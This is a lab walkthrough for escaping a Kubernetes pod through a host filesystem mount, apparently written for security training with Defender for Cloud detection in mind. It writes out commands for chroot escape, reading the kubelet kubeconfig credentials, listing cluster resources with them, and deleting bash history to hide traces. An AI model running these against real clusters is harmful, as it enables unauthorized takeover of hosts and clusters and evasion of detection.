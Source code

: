 The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. 

The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

### Pod to use in this lab
system-monitor
### Misconfiguration: 
Sensitive Mount, the full host system / volume is mounted in the pod, in /host-system


After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

```
capsh --print
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

Escape to the node, gainining access to the host system privileges using chroot. We also launch bash from this command

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

We could also start SSH server to allow remote access

And finally, remove your traces by deleting bash history

```
rm -rf ~/.bash_history
```


Very soon you will see an alert showing up on the Defender for Cloud console similar to this


![container-escape-alert](/images/container-escape-alert.PNG)

